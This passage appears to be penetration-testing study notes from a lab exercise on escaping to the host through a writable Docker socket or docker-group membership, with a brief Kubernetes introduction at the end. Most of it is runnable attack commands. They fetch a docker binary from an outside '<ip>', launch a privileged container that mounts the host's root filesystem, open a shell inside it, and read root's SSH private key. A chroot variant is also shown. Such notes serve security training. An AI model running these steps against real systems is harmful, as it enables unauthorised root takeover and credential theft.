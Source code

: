 ```shell
ls -al

total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
```

Use the [docker](https://master.dockerproject.org/linux/x86_64/docker) to interact with the socket and enumerate what docker contains are running. 
```shell
wget https://<ip>/docker -O docker
chmod +x docker
ls -l
```
```shell
/tmp/docker -H unix:///app/docker.sock ps
```
Create our own Docker Container than maps the host roots directory to the hostsystem. This gives us full access to the host system. 
```shell
/tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
```
```shell
/tmp/docker -H unix:///app/docker.sock ps
```
Login to the new privileged Docker container
```shell
/tmp/docker -H unix:///app/docker.sock exec -it <container id> /bin/bash
```
Attempt to grab ssh keys or enumerate etc...
```shell
cat /hostsystem/root/.ssh/id_rsa
```
##### Is Docker Socket Writeable?
```shell
docker image ls
```
```shell
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it <repositry name> chroot /mnt bash
```
```shell
ls -l
```

#### Docker Group
```shell
id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```
Check if docker has a SUID, or if we are in the `sudoers` file to run Docker as root. 

See what images are running:
```shell
docker image ls
```
### Kubernetes
Also known as [K8s](https://kubernetes.io/)
#### What is it
##### Concept
* Revolves around the concept of pods, which can hold one or more closely connected containers. 
* Each pod functions as a separate virtual machine on a node, complete with its own IP, hostname and other details. 
* Offers tools for load balancing, service discovery storage orchestration and self-healing. 
* Constantly developed with tools like `RBAC`